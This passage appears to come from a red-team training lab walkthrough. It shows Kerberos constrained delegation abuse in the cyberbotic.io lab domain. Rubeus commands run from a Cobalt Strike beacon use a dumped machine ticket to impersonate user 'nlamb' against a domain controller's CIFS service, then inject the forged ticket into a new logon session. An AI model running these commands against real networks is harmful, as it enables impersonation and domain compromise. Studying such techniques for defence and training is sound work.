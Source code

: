 ```
  Domain                   : DEV
  LogonId                  : 0x3e4
  UserSID                  : S-1-5-20
  AuthenticationPackage    : Negotiate
  LogonType                : Service
  LogonTime                : 9/13/2022 9:26:48 AM
  LogonServer              : 
  LogonServerDNSDomain     : 
  UserPrincipalName        : WKSTN-2$@dev.cyberbotic.io

    ServiceName              :  krbtgt/DEV.CYBERBOTIC.IO
    ServiceRealm             :  DEV.CYBERBOTIC.IO
    UserName                 :  WKSTN-2$
    UserRealm                :  DEV.CYBERBOTIC.IO
    StartTime                :  9/13/2022 9:27:12 AM
    EndTime                  :  9/13/2022 7:27:12 PM
    RenewTill                :  9/20/2022 9:27:12 AM
    Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
    KeyType                  :  aes256_cts_hmac_sha1
    Base64(key)              :  qEQBH1TdRRjZiZ0iXbeCy4Z3MsOf30l8lLTNE4InemY=
    Base64EncodedTicket   :

doIFuD[...]5JTw==
```
  

Then perform the `s4u`.
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:WKSTN-2$ /impersonateuser:nlamb /msdsspn:cifs/dc-2.dev.cyberbotic.io /ticket:doIFuD[...]5JTw== /nowrap

[*] Building S4U2self request for: 'WKSTN-2$@DEV.CYBERBOTIC.IO'
[*] Using domain controller: dc-2.dev.cyberbotic.io (10.10.122.10)
[*] Sending S4U2self request to 10.10.122.10:88
[+] S4U2self success!
[*] Got a TGS for 'nlamb' to 'WKSTN-2$@DEV.CYBERBOTIC.IO'
[*] base64(ticket.kirbi):

      doIFoD[...]0yJA==

[*] Impersonating user 'nlamb' to target SPN 'cifs/dc-2.dev.cyberbotic.io'
[*] Building S4U2proxy request for service: 'cifs/dc-2.dev.cyberbotic.io'
[*] Using domain controller: dc-2.dev.cyberbotic.io (10.10.122.10)
[*] Sending S4U2proxy request to domain controller 10.10.122.10:88
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'cifs/dc-2.dev.cyberbotic.io':

      doIGcD[...]MuaW8=
```
  

Finally, pass the ticket into a logon session for use.
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIGcD[...]MuaW8=

[*] Using DEV\nlamb:FakePass

[*] Showing process : False
[*] Username        : nlamb
[*] Domain          : DEV
[*] Password        : FakePass
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 4092
[+] Ticket successfully imported!
```